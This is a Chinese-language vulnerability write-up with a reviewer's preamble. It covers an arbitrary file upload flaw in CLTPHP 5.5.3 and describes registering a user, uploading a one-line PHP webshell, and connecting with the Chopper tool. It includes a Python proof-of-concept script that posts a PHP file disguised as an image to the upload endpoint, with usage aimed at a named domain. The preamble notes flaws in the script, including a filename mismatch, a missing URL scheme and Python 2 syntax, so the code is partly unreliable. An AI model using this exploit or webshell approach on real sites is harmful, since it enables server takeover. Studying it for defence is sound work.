

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：5.5.3; UI requires registered user but supplied script sends no auth

- **结论使用边界（1）**：UI/script authentication mismatch needs verification。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Instructions say place 一句话.php while code opens1.php。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（3）**：Example URL omits scheme required by requests; Python2 print syntax undocumented。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **证据待核（4）**：Public-directory assumption environment-specific; original blog reference available。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CLTPHP 5.5.3 任意文件上传漏洞

一、漏洞简介
------------

CLTPHP采用ThinkPHP开发，后台采用Layui框架的内容管理系统。

二、漏洞影响
------------

CLTPHP 5.5.3

三、复现过程
------------

找到一个注册界面

随便注册一个用户，登陆后在设置里找到一个上传点

上传我们的一句话木马

查看返回包，上传成功

访问失败，猜测返回路径可能不是绝对路径

通过报错信息查找关键词，发现存在public目录 那再把public加上再试试\~
success！

菜刀连接

### poc

> payload.py

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    #Author：Bypass
    #Date：2018.03.01
    import requests
    import sys

    def CLPHP_upload(url):
            header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)' ,
                                    'X-Requested-With': 'XMLHttpRequest',} 
            geturl = url+"/user/upFiles/upload"
            files ={'file':('1.php',open('1.php','rb'),'image/jpeg')}
            res = requests.post(geturl, files=files,headers=header)
            print res.text

    if __name__ == "__main__":
            if len(sys.argv) == 2:
                    url=sys.argv[1]
                    CLPHP_upload(url)
                    sys.exit(0)
            else:
                    print ("usage: %s xxx.com " % sys.argv[0])
                    sys.exit(-1)

**使用方法**：把payload.py和一句话.php放到同一文件夹下，

cmd执行 `python payload.py www.0-sec.org`

参考链接
--------

> https://www.cnblogs.com/unixcs/p/11244463.html
